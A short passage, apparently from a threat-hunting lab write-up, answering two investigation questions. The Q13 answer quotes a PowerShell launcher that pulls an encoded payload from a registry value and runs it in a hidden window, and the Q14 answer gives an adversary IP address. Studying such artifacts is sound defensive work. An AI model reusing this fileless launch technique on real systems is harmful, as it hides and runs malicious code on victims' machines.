 Q13 What PowerShell launch code was used to launch the payload in Investigation 3.1?

A13 
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit;
```
![alt text](image-39.png)

### Investigation 3.2

Q14 What is the IP of the adversary in Investigation 3.2?

A14 172.168.103.188 
